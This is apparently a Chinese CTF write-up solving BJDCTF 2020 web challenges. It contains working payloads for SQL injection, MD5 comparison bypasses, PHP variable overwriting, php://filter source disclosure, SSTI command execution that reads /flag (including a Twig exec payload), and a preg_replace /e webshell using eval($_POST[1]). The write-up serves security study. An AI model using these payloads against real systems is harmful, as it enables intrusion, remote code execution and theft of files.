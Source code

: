 # BJDCTF 2020

## Web

### EasyMD5

进入后通过 Response Headers 可以看到 `Hint: select * from 'admin' where password=md5($pass,true)`

通过百度可知输出格式为原始 16 字符二进制格式，分析上述 SQL 语句可知得让语句变为 `select * from 'admin' where password='or'1` 得格式，通过舍友得知了一个”万能密码 `ffifdyop` “。通过输入框输入 `ffifdyop` 可得回显，并在源代码中包含下一关的提示。

```php
$a = $GET['a'];
$b = $_GET['b'];
​
if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
```

通过分析可得需要两个不同的数但 md5 计算后相同的值，由于 md5() 函数进行的是弱比较，因此可以通过 0e 或者数组绕过判断

构造 payload `a=s878926199a&b=s155964671a` 访问后则跳转到 `levell14.php` 到达下一关

```php
<?php
error_reporting(0);
include "flag.php";
​
highlight_file(__FILE__);
​
if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

分析得到 0e 绕过已经不能用了，因此尝试数组绕过判断

构造 payload `param1[]=1&param2[]=2` 访问就可以获得 flag 力

### The mystery of ip

通过 Hint.php 的源代码可以发现提示“Do you know why i know your ip?”，初步判断是获取 Header 的，因此通过给 Header 头加上 `client-ip: 1` 可以发现这时 IP 回显为 1，说明确实是。接下来就是尝试 SSTI 模板注入，通过传入 `{{7*7}}` 回显 `49` 可以推断出确实能行，于是继续尝试 `{{system('ls /')}}` 可以发现 flag就在根目录中，通过传入 `{{system('cat /flag')}}` 就可以获取到 flag 力

### Mark loves cat

通过查看源代码还有 Header 没有发现什么突破点，直接开始进行目录扫描

```sh
$ python dirsearch.py -u http://d9c7b8a3-3bcd-4552-88f0-9e34b67b516a.node4.buuoj.cn:81/ -t 1 --timeout=2
```

<figure><img src=".gitbook/assets/Mark-loves-cat-1.png" alt=""><figcaption></figcaption></figure>

扫描目录后发现 `.git` 泄露，通过 GitHack 来提取文件

```shell
$ githack -o ./ http://0e7e243a-210d-495c-ade2-e31c871a0961.node4.buuoj.cn:81/.git/
```

可以得到 `flag.php`

```php
<?php
$flag = file_get_contents('/flag');
```

`index.php`

```php
    <?php
    include 'flag.php';
    $yds = "dog";
    $is = "cat";
    $handsome = 'yds';
    // $键名 = 键值
    foreach($_POST as $x => $y){
        $$x = $y;
    }
    // $键名 = $键值
    foreach($_GET as $x => $y){
        $$x = $$y;
    }
    foreach($_GET as $x => $y){
        if($_GET['flag'] === $x && $x !== 'flag'){
            exit($handsome);
        }
    }
    if(!isset($_GET['flag']) && !isset($_POST['flag'])){
        exit($yds);
    }
    if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
        exit($is);
    }
    echo "the flag is: ".$flag;
```

通过分析可以得知，body 中的参数 `$键名 = 键值` ，params 中的参数 `$键名 = $键值` 。

其中对于 params 中的参数进行要求：键名为 `flag` 的键值不能为 `flag` ，因此可以通过设置一个变量进行跳过，即 payload `flag=a&a=b` 。body 和 params 中的参数的要求是参数中不能同时存在 `flag` 。最后一关的要求是 body 和 params 中键名为 `flag` 的值不能为 `flag` ，以上要求全部满足则返回变量 `flag` 的值。我们可以通过修改变量 `handsome` 的值为 `flag` 来获取 flag。

payload `handsome=flag&flag=a&a=flag` 就可以得到 flag了。

### ZJCTF，不过如此

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

`I have a dream` 经过 base64 编码后为 `SSBoYXZlIGEgZHJlYW0=`

payload `text=data://text/plain;base64,SSBoYXZlIGEgZHJlYW0=&file=php://filter/read=convert.base64-encode/resource=next.php` 可以获得 `next.php` 的源码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

通过 Network - Header 可以发现 PHP 版本为 5.6.40，而 `complex()` 函数中的正则替换函数 `preg_replace()` 使用的是 `/e` ，这会使得当作命令来执行。因此当匹配模式改为任何字符串 `\S*` 内容改成 `${eval($_POST[1])}` 就可以写入 shell 了，通过蚁剑连接找到 flag 就行了，payload `\S*=${eval($_POST[1])}`

### Cookie is so stable

打开页面有两个文件 `flag.php` 和 `hint.php` ，从 `hint.php` 可以发现以下提示

```html
<!-- Why not take a closer look at cookies? -->
```

前往 `flag.php` 找 Cookies 为空，随便进行提交后可以发现多了 `user` ，值即刚刚随便提交输入的值 `123` ，并且页面会显示以下内容

```html
<h2>Hello 123</h2>
```

构造 Payload `{{5*5}}` 回显 25 ，存在 SSTI 注入漏洞。

构造 Payload `{{5*'5'}}` 回显 25 ，说明是 Twig 模板。

通过 Hackbar 修改 Cookie 即可得到 flag ，修改内容如下

```url
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```
